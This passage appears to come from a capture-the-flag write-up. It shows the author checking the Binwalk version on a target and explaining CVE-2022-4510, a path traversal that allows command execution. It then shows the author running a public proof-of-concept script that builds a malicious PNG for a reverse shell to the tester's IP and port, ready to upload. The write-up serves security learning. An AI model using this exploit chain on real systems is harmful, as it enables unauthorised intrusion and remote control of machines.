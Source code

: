 ### Binwalk command execution

I can get the version of `binwalk` being used via the help menu, Binwalk v2.3.2.

```bash
(remote) emily@pilgrimage:/home/emily$ binwalk -h

Binwalk v2.3.2
Craig Heffner, ReFirmLabs
https://github.com/ReFirmLabs/binwalk

Usage: binwalk [OPTIONS] [FILE1] [FILE2] [FILE3] ...

```

Once again searching for exploits for Binwalk v2.3.2, I came across [CVE-2022-4510](https://www.exploit-db.com/exploits/51249). This vulnerability resulted from merging the PFS extractor plugin with `binwalk` and introduced a path traversal issue due to the use of `os.path.join()`.Since PFS allows `../`, `binwalk` can write to arbitrary directories, inturn allowing command execution. Interestingly, the solution to this vulnerability was to ensure the use of absolute paths (`os.path.abspath()`).

This CVE also has a public [PoC](https://github.com/electr0sm0g/CVE-2022-4510/blob/main/RCE_Binwalk.py) that should give me a reverse shell. Running the python script creates a PNG image named `binwalk_exploit.png`.

```bash
❯ convert -size 32x32 xc:white empty.png
❯ python binwalk_exploit.py empty.png 10.0.14.18 9005

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.
❯ l
Permissions Size User    Date Modified Name
.rw-r--r--   753 abraxas 27 Jul 18:18  binwalk_exploit.png
.rw-r--r--  2.8k abraxas 27 Jul 18:18  binwalk_exploit.py
.rw-r--r--    72 abraxas 27 Jul 18:18  empty.png
```

Uploading the newly crafted PNG file to the `/var/www/pilgrimage.htb/shrunk` directory.
